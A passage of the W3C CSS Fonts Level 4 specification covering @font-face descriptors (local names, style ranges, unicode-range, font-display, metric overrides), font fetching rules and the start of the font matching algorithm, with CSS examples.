Just as an `@font-face` rule specifies the characteristics of a single font within a family, the unique name used with `local()` specifies a single font, not an entire font family. Defined in terms of OpenType font data, the Postscript name is found in the font’s [name table](https://www.microsoft.com/typography/otspec/name.htm), in the name record with nameID = 6 (see [OPENTYPE] for more details). The Postscript name is the commonly used key for all fonts on OSX and for Postscript CFF fonts under Windows. The full font name (nameID = 4) is used as a unique key for fonts with TrueType glyphs on Windows.

For OpenType fonts with multiple localizations of the full font name, the US English version must be used (language ID = 0x409 for Windows and language ID = 0 for Macintosh) or the first localization when a US English full font name is not available (the OpenType specification recommends that [all fonts minimally include US English names](https://www.microsoft.com/typography/otspec/recom.htm)). User agents that also match other full font names, e.g. matching the Dutch name when the current system locale is set to Dutch, are considered non-conformant.

> **Note:** This is done, not to prefer English, but to avoid matching inconsistencies across font versions and OS localizations, since font style names (e.g. "Bold") are frequently localized into many languages and the set of localizations available varies widely across platform and font version.

User agents that match a concatenation of family name (nameID = 1) with style name (nameID = 2) are considered non-conformant.

> **Note:** This also allows for referencing faces that belong to larger families that cannot otherwise be referenced.

> **Example:** Use a local font or reference an SVG font in another document:
>
> ```
> @font-face {
>   font-family: Headline;
>   src: local(Futura-Medium),
>     url(images/fonts.svg#MyGeometricModern) format("svg");
> }
> ```
>
> Create an alias for local Japanese fonts on different platforms:
>
> ```
> @font-face {
>   font-family: jpgothic;
>   src: local(HiraKakuPro-W3), local(Meiryo), local(IPAPGothic);
> }
> ```
>
> Reference a font face that cannot be matched within a larger family:
>
> ```
> @font-face {
>   font-family: Hoefler Text Ornaments;
>   /* has the same font properties as Hoefler Text Regular */
>   src: local(HoeflerText-Ornaments);
> }
> ```
>
> Since localized fullnames never match, a document with the header style rules below would always render using the default serif font, regardless whether a particular system locale parameter is set to Finnish or not:
>
> ```
> @font-face {
>   font-family: SectionHeader;
>   src: local("Arial Lihavoitu");  /* Finnish fullname for Arial Bold, should fail */
>   font-weight: bold;
> }
>
> h2 { font-family: SectionHeader, serif; }
> ```
>
> A conformant user agent would never load the font 'gentium.eot' in the example below, since it is included in the first definition of the `src` descriptor which is overridden by the second definition in the same `@font-face` rule:
>
> ```
> @font-face {
>   font-family: MainText;
>   src: url(gentium.eot);                     /* for use with older user agents */
>   src: local("Gentium"), url(gentium.woff);  /* Overrides src definition */
> }
> ```

#### 4.4.  Font property descriptors: the `font-style`, `font-weight`, and `font-width` descriptors {#css-fonts-4:font-prop-desc}

| Field | Value |
| --- | --- |
| Name: | **font-style** |
| For: | `@font-face` |
| Value: | auto \| normal \| italic \| left \| right \| oblique [ `<angle [-90deg,90deg]>`{1,2} ]? |
| Initial: | auto |

| Field | Value |
| --- | --- |
| Name: | **font-weight** |
| For: | `@font-face` |
| Value: | auto \| `<font-weight-absolute>`{1,2} |
| Initial: | auto |

| Field | Value |
| --- | --- |
| Name: | **font-width** |
| For: | `@font-face` |
| Value: | auto \| `<'font-width'>`{1,2} |
| Initial: | auto |

These descriptors define the characteristics of a font face and are used in the process of matching styles to specific faces. For a font family defined with several `@font-face` rules, user agents can either download all faces in the family or use these descriptors to selectively download font faces that match actual styles used in document. The meaning of the values for these descriptors are the same as those for the corresponding font properties except that relative keywords are not allowed, `bolder` and `lighter`. If these descriptors are omitted, initial values are assumed. If specified values are out of range of the accepted values of the property of the same name, the descriptor is treated as a parse error.

Ranges are accepted in these three descriptors in place of a single value. Where a single value is specified, it has the same meaning as a range with identical startpoint and endpoint. User agents must swap the computed value of the startpoint and endpoint of the range in order to forbid decreasing ranges. Both endpoints are inclusive. The ranges are used in the [Font Matching Algorithm](#css-fonts-4:font-matching-algorithm) below.

The auto values for these three descriptors have the following effects:

- For font selection purposes, the font is selected as if the appropriate normal value (`normal`, `normal` or `normal`) is chosen
- For variation axis clamping, clamping does not occur

The value for these font face style attributes is used in place of the style implied by the underlying font data. This allows authors to combine faces in flexible combinations, even in situations where the original font data was arranged differently. User agents that implement synthetic bolding and obliquing must only apply synthetic styling in cases where the font descriptors imply this is needed, rather than based on the style attributes implied by the font data. However, variation values applied to fonts defined with '@font-face' will be clamped to both the values specified in these descriptors, or implied by the application of variation parameters (such as manipulation of the `wght` axis to satisfy the requested `font-weight`), as well as the values supported by the font file itself.

> **Example:** The font descriptors defined in this section are used for selecting a font from within the set of fonts defined by `@font-face` rules for a given family.
>
> Consider a family containing a single, regular face:
>
> ```
> @font-face {
>   font-family: BaskervilleSimple;
>   src: url(baskerville-regular.woff2);
> }
> ```
>
> Unstyled text would display using the regular face defined in the `@font-face` rule:
>
> 
>
> However, italic text would display in most user agents using synthetically obliqued glyphs from the regular face, since a separate italic face is not defined:
>
> 
>
> Now consider a family for which an actual italic face is defined:
>
> ```
> @font-face {
>   font-family: BaskervilleFull;
>   src: url(baskerville-regular.woff2);
> }
>
> @font-face {
>   font-family: BaskervilleFull;
>   src: url(baskerville-italic.woff2);
>   font-style: italic;
> }
> ```
>
> The second `@font-face` rule defines the font resource `baskerville-italic.woff` to have style attributes of normal weight, normal stretch and italic style. When displaying italic text, the user agent will use this font, since it’s the closest match for italic text. Thus, the text will display using glyphs designed by a type designer rather than using synthetically obliqued glyphs from the regular face:
>
> 
>
> See the section on [font matching](#css-fonts-4:font-style-matching) for more complete details of the process used to select a particular face within a font family.

> **Example:** Fonts may advertise the range of `font-weight`, `font-width`, and `font-style` they are compatible with.
>
> ```
> @font-face {
>   font-family: Lastima;
>   src: url(lastima-varfont.woff2);
>   font-weight: 100 399;
> }
> ```
>
> The above `@font-face` rule indicates that `lastima-varfont.woff` should be used when `font-weight` is between 100 and 399. Depending on if there are any other `@font-face` rules which specify `font-family: Lastima`, `lastima-varfont.woff` might be used for values of `font-weight` outside of the 100 - 399 range. For more details, see the [§ 5 Font Matching Algorithm](#css-fonts-4:font-matching-algorithm).
>
> As [above](#css-fonts-4:ex-descriptors-matching), multiple `@font-face` rules may be joined together into a single family, spanning multiple ranges of `font-weight`, `font-width`, and/or `font-style`:
>
> ```
> @font-face {
>   font-family: Lastima;
>   src: url(lastima-varfont-lightrange.woff2);
>   font-weight: 100 399;
> }
> @font-face {
>   font-family: Lastima;
>   src: url(lastima-varfont-heavyrange.woff2);
>   font-weight: 400 700;
> }
> ```
>
> The above `@font-face` rules indicate that `lastima-varfont-lightrange.woff` should be used when `font-weight` is between 100 and 399, whereas `lastima-varfont-heavyrange.woff` should be used when `font-weight` is between 400 and 700.

##### 4.4.1.  Font width: the `font-stretch` legacy name alias {#css-fonts-4:font-stretch-desc}

For historical reasons, a **font-stretch** descriptor exists which is a legacy name alias and functions in the identical way to the `font-width` descriptor.

#### 4.5.  Character range: the `unicode-range` descriptor {#css-fonts-4:unicode-range-desc}

| Field | Value |
| --- | --- |
| Name: | **unicode-range** |
| For: | `@font-face` |
| Value: | `<unicode-range-token>`# |
| Initial: | U+0-10FFFF |

This descriptor defines the set of Unicode codepoints that may be supported by the font face for which it is declared. The descriptor value is a comma-delimited list of Unicode range token (`<unicode-range-token>`) values. The union of these ranges defines the set of codepoints that serves as a hint for user agents when deciding whether or not to download a font resource for a given text run.

Each `<unicode-range-token>` value is a token made up of a "U+" or "u+" prefix followed by a codepoint range in one of the three forms listed below. Ranges that do not fit one of these forms are invalid and cause the declaration to be ignored.

**single codepoint (e.g. U+416)**

: a Unicode codepoint, represented as one to six hexadecimal digits

**interval range (e.g. U+400-4ff)**

: represented as two hyphen-separated Unicode codepoints indicating the inclusive start and end codepoints of a range

**wildcard range (e.g. U+4??)**

: defined by the set of codepoints implied when trailing '?' characters signify any hexadecimal digit

Individual codepoints are written using hexadecimal values that correspond to [Unicode character codepoints](https://www.unicode.org/charts/). Unicode codepoint values must be between 0 and 10FFFF inclusive. Digit values of codepoints are [ASCII case-insensitive](https://infra.spec.whatwg.org/#ascii-case-insensitive). For interval ranges, the start and end codepoints must be within the range noted above and the end codepoint must be greater than or equal to the start codepoint.

Wildcard ranges specified with ‘?’ that lack an initial digit (e.g. "U+???") are valid and equivalent to a wildcard range with an initial zero digit (e.g. "U+0???" = "U+0000-0FFF"). Wildcard ranges that extend beyond the range of Unicode codepoints are invalid. Because of this, the maximum number of trailing '?' wildcard characters is five, even though the [`UNICODE-RANGE`](#css2:tokenization) token accepts six.

Within the comma-delimited list of Unicode ranges in a `unicode-range` descriptor declaration, ranges may overlap. The union of these ranges defines the set of codepoints for which the corresponding font may be used. User agents must not download or use the font for codepoints outside this set. User agents may normalize the list of ranges into a list that is different but represents the same set of codepoints.

The associated font might not contain glyphs for the entire set of codepoints defined by the `unicode-range` descriptor. When the font is used, the **effective character map** is the intersection of the codepoints defined by `unicode-range` with the font’s character map. This allows authors to define supported ranges in terms of broad ranges without worrying about the precise codepoint ranges supported by the underlying font.

##### 4.5.1. Using character ranges to define composite fonts {#css-fonts-4:composite-fonts}

Multiple `@font-face` rules with different unicode ranges for the same family and style descriptor values can be used to create composite fonts that mix the glyphs from different fonts for different scripts. This can be used to combine fonts that only contain glyphs for a single script (e.g. Latin, Greek, Cyrillic) or it can be used by authors as a way of segmenting a font into fonts for commonly used characters and less frequently used characters. Since the user agent will only pull down the fonts it needs this helps reduce page bandwidth.

If the unicode ranges overlap for a set of `@font-face` rules with the same family and style descriptor values, the rules are ordered in the reverse order they were defined; the last rule defined is the first to be checked for a given character.

Example ranges for specific languages or characters:

**unicode-range: U+A5;**

: a single code point, the yen/yuan symbol

**unicode-range: U+0-7F;**

: code range for basic ASCII characters

**unicode-range: U+590-5ff;**

: code range for Hebrew characters

**unicode-range: U+A5, U+4E00-9FFF, U+30??, U+FF00-FF9F;**

: code range for Japanese kanji, hiragana and katakana characters plus yen/yuan symbol

> **Example:** The BBC provides news services in a wide variety of languages, many that are not well supported across all platforms. Using an `@font-face` rule, the BBC could provide a font for any of these languages, as it already does via a manual font download.
>
> ```
> @font-face {
>   font-family: BBCBengali;
>   src: url(fonts/BBCBengali.woff) format("woff");
>   unicode-range: U+00-FF, U+980-9FF;
> }
> ```

> **Example:** Technical documents often require a wide range of symbols. The STIX Fonts project is one project aimed at providing fonts to support a wide range of technical typesetting in a standardized way. The example below shows the use of a font that provides glyphs for many of the mathematical and technical symbol ranges within Unicode:
>
> ```
> @font-face {
>   font-family: STIXGeneral;
>   src: local(STIXGeneral), url(/stixfonts/STIXGeneral.otf);
>   unicode-range: U+000-49F, U+2000-27FF, U+2900-2BFF, U+1D400-1D7FF;
> }
> ```

> **Example:** This example shows how an author can override the glyphs used for Latin characters in a Japanese font with glyphs from a different font. The first rule specifies no range so it defaults to the entire range. The range specified in the second rule overlaps but takes precedence because it is defined later.
>
> ```
> @font-face {
>   font-family: JapaneseWithGentium;
>   src: local(MSMincho);
>   /* no range specified, defaults to entire range */
> }
>
> @font-face {
>   font-family: JapaneseWithGentium;
>   src: url(../fonts/Gentium.woff);
>   unicode-range: U+0-2FF;
> }
> ```

> **Example:** Consider a family constructed to optimize bandwidth by separating out Latin, Japanese and other characters into different font files:
>
> ```
> /* fallback font - size: 4.5MB */
> @font-face {
>   font-family: DroidSans;
>   src: url(DroidSansFallback.woff);
>   /* no range specified, defaults to entire range */
> }
>
> /* Japanese glyphs - size: 1.2MB */
> @font-face {
>   font-family: DroidSans;
>   src: url(DroidSansJapanese.woff);
>   unicode-range: U+3000-9FFF, U+ff??;
> }
>
> /* Latin, Greek, Cyrillic along with some
>   punctuation and symbols - size: 190KB */
> @font-face {
>   font-family: DroidSans;
>   src: url(DroidSans.woff);
>   unicode-range: U+000-5FF, U+1e00-1fff, U+2000-2300;
> }
> ```
>
> For simple Latin text, only the font for Latin characters is downloaded:
>
> ```
> body { font-family: DroidSans; }
>
> <p>This is that</p>
> ```
>
> In this case the user agent first checks the unicode-range for the font containing Latin characters (DroidSans.woff). Since all the characters above are in the range U+0-5FF, the user agent downloads the font and renders the text with that font.
>
> Next, consider text that makes use of an arrow character (⇨):
>
> ```
> <p>This &#x21e8; that<p>
> ```
>
> The user agent again first checks the unicode-range of the font containing Latin characters. Since U+2000-2300 includes the arrow code point (U+21E8), the user agent downloads the font. For this character however the Latin font does not have a matching glyph, so the effective unicode-range used for font matching excludes this code point. Next, the user agent evaluates the Japanese font. The unicode-range for the Japanese font, U+3000-9FFF and U+ff??, does not include U+21E8, so the user agent does not download the Japanese font. Next the fallback font is considered. The `@font-face` rule for the fallback font does not define unicode-range so its value defaults to the range of all Unicode code points. The fallback font is downloaded and used to render the arrow character.

#### 4.6.  Font features and variations: the `font-feature-settings` and `font-variation-settings` descriptors {#css-fonts-4:font-rend-desc}

| Field | Value |
| --- | --- |
| Name: | **font-feature-settings** |
| For: | `@font-face` |
| Value: | normal \| `<feature-tag-value>`# |
| Initial: | normal |

| Field | Value |
| --- | --- |
| Name: | **font-variation-settings** |
| For: | `@font-face` |
| Value: | normal \| [ `<string>` `<number>`]# |
| Initial: | normal |

These descriptors define initial settings that apply when the font defined by an `@font-face` rule is rendered. They do not affect font selection. Values are identical to those defined for the corresponding `font-feature-settings` and `font-variation-settings` properties defined below except that the CSS-wide keywords are omitted. When multiple font feature descriptors, properties, or variations are used, optionally along with a named instance, the cumulative effect on text rendering is detailed in the section [§ 7 Font Feature and Variation Resolution](#css-fonts-4:font-feature-variation-resolution) below.

These descriptors set features and variation values on the font object which the `@font-face` rule represents, rather than on an entire element. Therefore, when using these descriptors, only some glyphs in an element may be rendered with that feature, due to [§ 5.3 Cluster matching](#css-fonts-4:cluster-matching).

#### 4.7. Using named instances from variable fonts: the `font-named-instance` descriptor {#css-fonts-4:font-named-instance}

| Field | Value |
| --- | --- |
| Name: | **font-named-instance** |
| For: | `@font-face` |
| Value: | auto \| `<string>` |
| Initial: | auto |

If the `font-named-instance` descriptor is set to a value other than `auto`, then the appropriate stage in the [§ 7 Font Feature and Variation Resolution](#css-fonts-4:font-feature-variation-resolution) will inspect the font file to find the first named instance in the font which has a localized name equal to the given `<string>` according to the rules given in [§ 5.1 Localized name matching](#css-fonts-4:localized-name-matching). If no such named instance exists, this descriptor is treated as if it has a value of 'font-named-instance/auto'. Otherwise, this named instance’s variation axis values are applied to this position in the [§ 7 Font Feature and Variation Resolution](#css-fonts-4:font-feature-variation-resolution).

> **Example:** For example, the following `@font-face` block will apply the instance named "Grotesque" but will override the "XHGT" axis to have a value of 0.7.
>
> ```
> @font-face {
>   font-family: "AccuroVar";
>   src: url("accurovar.otf") format("opentype");
>   font-named-instance: "Grotesque";
>   font-variation-settings: "XHGT" 0.7;
> }
> ```

> **Note:** Because the variation axis values supplied in the `font-weight`, `font-width`, and `font-style` properties are applied before the value in the `font-named-instance` descriptor, there is no need to change the value of those properties when a named instance is desired.

#### 4.8. Font request guidelines {#css-fonts-4:font-requests}

##### 4.8.1. Font loading guidelines {#css-fonts-4:font-face-loading}

The `@font-face` rule is designed to allow lazy loading of font resources that are only downloaded when used within a document. A stylesheet can include `@font-face` rules for a library of fonts of which only a select set are used; user agents must only download those fonts that are referred to within the style rules applicable to a given page. User agents that download all fonts defined in `@font-face` rules without considering whether those fonts are in fact used within a page are considered non-conformant. In cases where a font might be downloaded in character fallback cases, user agents may download a font if it’s contained within the computed value of `font-family` for a given text run.

```
@font-face {
  font-family: GeometricModern;
  src: url(font.woff);
}

p {
  /* font will be downloaded for pages with p elements */
  font-family: GeometricModern, sans-serif;
}

h2 {
  /* font may be downloaded for pages with h2 elements, even if Futura is available locally */
  font-family: Futura, GeometricModern, sans-serif;
}
```

In cases where textual content is loaded before downloadable fonts are available, user agents must render text according to the `font-display` descriptor of that `@font-face` block. In cases where the font download fails, user agents must display the text visibly. Authors are advised to use fallback fonts in their font lists that closely match the metrics of the downloadable fonts to avoid large page reflows where possible.

##### 4.8.2.  Font fetching requirements {#css-fonts-4:font-fetching-requirements}

To **fetch a font** given a selected `<url>` *url* for `@font-face` *rule*, fetch *url*, with ruleOrDeclaration being *rule*, destination "font", CORS mode "cors", and processResponse being the following steps given response *res* and null, failure or a byte stream *stream*:

1. If *stream* is null, return.
2. > **Issue:** Load a font from *stream* according to its type.

> **Note:** The implications of this for authors are that fonts will typically not be loaded cross-origin unless authors specifically take steps to permit cross-origin loads. Sites can explicitly allow cross-site loading of font data using the `Access-Control-Allow-Origin` HTTP header. For other schemes, no explicit mechanism to allow cross-origin loading, beyond what is permitted by the fetch algorithm, is defined or required.

> **Example:** For the examples given below, assume that a document is located at `https://example.com/page.html` and all URLs link to valid font resources supported by the user agent.
>
> Fonts defined with the `src` descriptor values below will be loaded:
>
> ```
> /* same origin (i.e. domain, scheme, port match document) */
>     src: url(fonts/simple.woff);
>
>     /* data urls with no redirects are treated as same origin */
>     src: url("data:application/font-woff;base64,...");
>
>     /* cross origin, different domain */
>     /* Access-Control-Allow-Origin response header set to '*' */
>     src: url(http://another.example.com/fonts/simple.woff);
> ```
>
> Fonts defined with the `src` descriptor values below will fail to load:
>
> ```
> /* cross origin, different scheme */
>     /* no Access-Control-xxx headers in response */
>     src: url(http://example.com/fonts/simple.woff);
>
>     /* cross origin, different domain */
>     /* no Access-Control-xxx headers in response */
>     src: url(http://another.example.com/fonts/simple.woff);
> ```

#### 4.9.  Controlling Font Display Per Font-Face: the `font-display` descriptor {#css-fonts-4:font-display-desc}

The `font-display` descriptor for `@font-face` determines how a font face is displayed, based on whether and when it is downloaded and ready to use.

| Field | Value |
| --- | --- |
| Name: | **font-display** |
| For: | `@font-face` |
| Value: | auto \| block \| swap \| fallback \| optional |
| Initial: | auto |

> **Note:** For all of these values, user agents may use slightly different durations, or more sophisticated behaviors that can’t be directly expressed in the `font-display` syntax, in order to provide more useful behavior for their users. They may also provide the ability for users to override author-chosen behavior with something more desirable; for example, forcing all fonts to have a `0s` block period.

****auto****

: The font display policy is user-agent-defined.

  > **Note:** Many browsers have a default policy similar to that specified by `block`.

****block****

: Gives the font face a short block period (`3s` is recommended in most cases) and an infinite swap period.

  > **Note:** In other words, the browser draws "invisible" text at first if it’s not loaded, but swaps the font face in as soon as it loads.

  This value must only be used when rendering text in a particular font is required for the page to be usable. It must only be used for small pieces of text.

  > **Example:** For example, badly designed "icon fonts" might associate a "⎙" (printer) icon with an unrelated character like "P", so if the text is displayed with a fallback font instead there will be confusing letters scattered around the page rather than the desired icon. In this case, temporary blank spots are better than using a fallback font.
  >
  > (However, the fallback font is used *eventually*, as having confusing letters scattered around the page is better than having links and such never show up at all.)
  >
  > A better solution is described in the [Accessibility Considerations](#css-fonts-4:a11y) section.

****swap****

: Gives the font face an extremely small block period (`100ms` or less is recommended in most cases) and an infinite swap period.

  > **Note:** In other words, the browser draws the text immediately with a fallback if the font face isn’t loaded, but swaps the font face in as soon as it loads.

  This value should only be used when rendering text in a particular font is very important for the page, but rendering in any font will still get a correct message across. It should only be used for small pieces of text.

  > **Example:** For example, if a website has a custom font for rendering their logo, rendering that logo correctly is fairly important for branding purposes, but displaying the logo in any font will at least get the point across without confusion.

****fallback****

: Gives the font face an extremely small block period (`100ms` or less is recommended in most cases) and a short swap period (`3s` is recommended in most cases).

  > **Note:** In other words, the font face is rendered with a fallback at first if it’s not loaded, but it’s swapped in as soon as it loads. However, if too much time passes, the fallback will be used for the rest of the page’s lifetime instead.

  This value should be used for body text, or any other text where the use of the chosen font is useful and desired, but it’s acceptable for the user to see the text in a fallback font. This value is appropriate to use for large pieces of text.

  > **Example:** For example, in large pieces of body text, it’s most important just to get the text rendered quickly, so the user can begin to read as quickly as possible. Further, once the user has started reading, they shouldn’t be disturbed by the text suddenly "shifting" as a new font is swapped in, as that’s distracting and annoying to re-find where one was in the text.

****optional****

: If the font can be loaded "immediately" (such that it’s available to be used for the "first paint" of the text), the font is used.

  Otherwise, the font is treated as if its block period and swap period both expired before it finished loading. If the font is not used due to this, the user agent may choose to abort the font download, or download it with a very low priority. If the user agent believes it would be useful for the user, it may avoid even starting the font download, and proceed immediately to using a fallback font.

  An `optional` font **must never** cause the layout of the page to "jump" as it loads in. A user agent *may* choose to slightly delay rendering an element using an optional font to give it time to load from a possibly-slow local cache, but once the text has been painted to the screen with a fallback font instead, it must not be rendered with the `optional` font for the rest of the page’s lifetime.

  This value should be used for body text, or any other text where the chosen font is purely a decorative "nice-to-have". It should be used anytime it is more important that the web page render quickly on first visit, than it is that the user wait a longer time to see everything perfect immediately.

  > **Example:** For example, body text is perfectly readable in one of the browser default fonts, though a downloadable font face might be more attractive and mesh with the site’s aesthetics better. First time visitors to a site generally care far more about the site being quickly usable than they do about the finer points of its display, and `optional` provides a good behavior for them. If they return later, the desired font faces might have finished downloading, giving them the "intended" experience without slowing down either their first or subsequent visits.
  >
  > Users on very slow connections might not ever receive the "intended" experience, but `optional` ensures they can actually *use* the site, rather than quitting and going elsewhere because the site takes too long to load.

  > **Note:** To increase the chance that an `optional` font will be available in time to use for rendering some text, it is recommended that the user agent employ heuristics to make it faster to access or to judge when it would be worthwhile to delay rendering some text, such as checking if the font is preloaded in HTML, or moving the file from slower to faster in-memory caches as soon as it is seen in a stylesheet (before it’s known whether it will be used on the page).
  >
  > These heuristics cannot be relied upon by authors, however; it must be understood that the `optional` value can result in the font never being used. If a somewhat higher assurance of the font being used is needed, authors should consider using the `fallback` value.

##### 4.9.1.  Controlling Font Display Per Font-Family via `@font-feature-values` {#css-fonts-4:font-display-font-feature-values}

The `font-display` descriptor for `@font-feature-values` determines how a font family is displayed, by setting the "default" font-display value for `@font-face` rules targeting the same font family. When `font-display` is omitted in an `@font-face` rule, the user agent uses the `font-display` value set via `@font-feature-values` for the relevant font-family if one is set, and otherwise defaults to `auto`.

This mechanism can be used to set a default display policy for an entire font-family, and enables developers to set a display policy for `@font-face` rules that are not directly under their control. For example, when a font is served by a third-party font foundry, the developer does not control the `@font-face` rules but is still able to set a default font-display policy for the provided font-family. The ability to set a default policy for an entire font-family is also useful to avoid the ransom note effect (i.e. mismatched font faces) because the display policy is then applied to the entire font family.

| Field | Value |
| --- | --- |
| Name: | **font-display** |
| For: | `@font-feature-values` |
| Value: | auto \| block \| swap \| fallback \| optional |
| Initial: | auto |

#### 4.10.  Default font language overriding: the `font-language-override` descriptor {#css-fonts-4:font-language-override-desc}

| Field | Value |
| --- | --- |
| Name: | **font-language-override** |
| For: | `@font-face` |
| Value: | normal \| `<string>` |
| Initial: | normal |

This descriptor defines initial settings that apply when the font defined by an @font-face rule is rendered. It does not affect font selection. Values are identical to those defined for the `font-language-override` property defined below except that the value inherit is omitted. When multiple font feature descriptors, properties, or variations are used, the cumulative effect on text rendering is detailed in the section [§ 7 Font Feature and Variation Resolution](#css-fonts-4:font-feature-variation-resolution) below.

#### 4.11.  Default font metrics overriding: the `ascent-override`, `descent-override` and `line-gap-override` descriptors {#css-fonts-4:font-metrics-override-desc}

| Field | Value |
| --- | --- |
| Name: | **ascent-override** |
| For: | `@font-face` |
| Value: | normal \| `<percentage [0,∞]>` |
| Initial: | normal |

| Field | Value |
| --- | --- |
| Name: | **descent-override** |
| For: | `@font-face` |
| Value: | normal \| `<percentage [0,∞]>` |
| Initial: | normal |

| Field | Value |
| --- | --- |
| Name: | **line-gap-override** |
| For: | `@font-face` |
| Value: | normal \| `<percentage [0,∞]>` |
| Initial: | normal |

The `ascent-override`, `descent-override` and `line-gap-override` descriptors define the ascent metric, descent metric and line gap metric of the font, respectively.

When the descriptor value is `normal`, the corresponding metric value is obtained from the font file directly.

> **Note:** User agents may draw data from different places from the font file as the metric values, which results in different text layouts.

When the descriptor value is a percentage, the corresponding metric value is resolved as the given percentage multiplied by the used font size. Negative values are invalid at parse time.

> **Example:** The percentage is resolved against different font sizes for different elements.
>
> ```
> @font-face {
>   font-family: overridden-font;
>   ascent-override: 50%;
>   ...
> }
>
> <span style="font-family: overridden-font; font-size: 20px;">
>   Outer span content
>   <span style="font-size: 150%;">Inner span content</span>
> </span>
> ```
>
> The outer span uses an ascent value of 10px, whereas the inner span uses 15px.

> **Example:** We may override the metrics of a local fallback font to match the primary font, which is a web font. This reduces layout shifting when switching from fallback to the primary font.
>
> ```
> @font-face {
>   font-family: cool-web-font;
>   src: url("https://example.com/font.woff");
> }
>
> @font-face {
>   font-family: fallback-to-local;
>   src: local(Some Local Font);
>   /* Override metric values to match cool-web-font */
>   ascent-override: 125%;
>   descent-override: 25%;
>   line-gap-override: 0%;
> }
>
> <div style="font-family: cool-web-font, fallback-to-local">Title goes here</div>
> 
> ```
>
> The image will not be vertically shifted when the user agent finishes loading and switches to use the web font.

### 5. Font Matching Algorithm {#css-fonts-4:font-matching-algorithm}

The algorithm below describes how fonts are associated with individual runs of text. For each character in the run a font family is chosen and a particular font face is selected containing a glyph for that character.

The set of [installed fonts](#css-fonts-4:installed-fonts) available to the Font Matching Algorithm is explicitly undefined.

The default set of installed fonts will vary by UA, platform, and locale; it is important that users be able to customise which installed fonts are available for rendering web pages and to which generic font families, if any, these fonts are mapped.

UAs may choose to expose all installed fonts to the web, regardless of how that font was installed; doing so is likely to have good internationalization properties for users whose primary language is not supported by fonts shipping with their operating system.

UAs may alternatively choose to not initially expose any user-installed fonts to aid privacy on the web; for the set of installed fonts a user has installed is often used as a tracking vector to track users across the web. Users should then be able to add to or remove fonts from that set, according to their needs.

UAs may choose a hybrid approach, where some user-installed fonts are initially exposed for internationalization, but others aren’t. Again, users should be able to customise this starting set.

UAs are expected to make informed decisions on which fonts they expose to the web by default, so as to balance between internationalization and privacy. UAs are expected to also provide a convenient means for users to add and subtract fonts to meet their particular needs.

#### 5.1. Localized name matching {#css-fonts-4:localized-name-matching}

Some font file formats allow font faces to carry multiple localizations of a particular string (e.g. family name or named instance). User agents must recognize and correctly match all of these names independent of the underlying platform localization, system API used, or document encoding.

> **Example:** For example, for each of the fonts listed below, the author can use either the Latin name or the localized name in the `font-family` property, and the results will be identical on all systems:
>
> 
>
> Localized family names

User agents must match these names case insensitively, using the "Default Caseless Matching" algorithm outlined in the Unicode specification [UNICODE]. This algorithm is detailed in section 3.13 entitled "Default Case Algorithms". Specifically, the algorithm must be applied without normalizing the strings involved and without applying any language-specific tailorings. The case folding method specified by this algorithm uses the case mappings with status field "C" or "F" in the CaseFolding.txt file of the Unicode Character Database.

> **Note:** For authors this means that font family names are matched case insensitively, whether those names exist in a platform font or in the `@font-face` rules contained in a stylesheet. Authors should take care to ensure that names use a character sequence consistent with the actual font family name, particularly when using combining characters such as diacritical marks. For example, a family name that contains a lowercase a (U+0061) followed by a combining ring (U+030A) will **not** match a name that looks identical but which uses the precomposed lowercase a-ring character (U+00E5) instead of the combining sequence.

> **Note:** Implementors should take care to verify that a given caseless string comparison implementation uses this precise algorithm and not assume that a given platform string matching routine follows it, as many of these have locale-specific behavior or use some level of string normalization.

#### 5.2. Matching font styles {#css-fonts-4:font-style-matching}

The procedure for choosing a font for a given character in a run of text consists of iterating over the font families named by the `font-family` property, selecting a font face with the appropriate style based on other font properties and then determining whether a glyph exists for the given character. This is done using the **character map** of the font, data which maps characters to the default glyph for that character. A font is considered to **support** a given character if (1) the character is contained in the font’s character map and (2) if required by the containing script, shaping information is available for that character.

Some legacy fonts might include a given character in the character map but lack the shaping information (e.g. [OpenType layout tables](https://www.microsoft.com/typography/otspec/ttochap1.htm) or [Graphite tables](https://scripts.sil.org/cms/scripts/page.php?site_id=projects&item_id=graphite_techAbout)) necessary for correctly rendering text runs containing that character.

Codepoint sequences consisting of a base character followed by a sequence of combining characters are treated slightly differently, see the section on [cluster matching](#css-fonts-4:cluster-matching) below.

For this procedure, the **default font face** for a given font family is defined to be the face that would be selected if all font style properties were set to their initial value.

1. Using the computed font property values for a given element, the user agent starts with the first family name specified by the `font-family` property.
2. If the family name is a generic family keyword, the user agent looks up the appropriate font family name to be used. User agents may choose the generic font family to use based on the language of the containing element or the Unicode range of the character.
3. For other family names, the user agent attempts to find the family name among fonts defined via `@font-face` rules and then among available installed fonts (this may include font aliases), matching names with a [§ 5.1 Localized name matching](#css-fonts-4:localized-name-matching) as outlined in the section above. If the font resources defined for a given face in an `@font-face` rule are either not available or contain invalid font data, then the face should be treated as not present in the family. If no faces are present for a family defined via `@font-face` rules, the family should be treated as missing; matching a platform font with the same name must not occur in this case.
4. If a font family match occurs, the user agent assembles the set of font faces in that family and then narrows the set to a single face using other font properties in the order given below. Fonts might be present in this group which can support a range of `font-width`, `font-style`, or `font-weight` properties. In this case, the algorithm proceeds as if each supported combination of values is a unique font in the set. If such a font is ultimately selected by this algorithm, particular values for `font-width`, `font-style`, and `font-weight` must be applied before any layout or rendering occurs. The application of these values must be applied in the [Apply font matching variations](#css-fonts-4:apply-font-matching-variations) step detailed in [§ 7 Font Feature and Variation Resolution](#css-fonts-4:font-feature-variation-resolution). A group of faces defined via `@font-face` rules with identical font descriptor values but differing `unicode-range` values are considered to be a single **composite font face** for this step:

  1. `font-width` is tried first. If a font does not have any concept of varying strengths of width values, its width value is mapped according table in the [property definition](#css-fonts-4:widthmappings). If the matching set includes faces with width values containing the `font-width` desired value, faces with width values which do not include the desired width value are removed from the matching set. If there is no face which contains the desired value, a width value is chosen using the rules below:

    - If the desired width value is less than or equal to 100%, width values below the desired width value are checked in descending order followed by width values above the desired width value in ascending order until a match is found.
    - Otherwise, width values above the desired width value are checked in ascending order followed by width values below the desired width value in descending order until a match is found.

     Once the closest matching width has been determined by this process, faces with widths which do not include this determined width are removed from the matching set.

     > **Example:** This search algorithm can be thought of as a distance function, where the lowest-distance value present in the font family is selected, and all fonts not including that value are eliminated.
     >
     > Consider a font family with three fonts, named A, B, and C, each with associated supported ranges for the `font-width` descriptor. If an element is styled with "font-width: 125%", the search algorithm can be visualized as follows:
     >
     > 
     >
     > The font width ranges supported by fonts A, B, and C are shown in the graph above. As you can see, because font B contains the minimum width value across the entire family, font B would be selected by this algorithm. However, if font B were somehow eliminated from the family, font C would then contain the lowest distance in the family, so it would be selected.

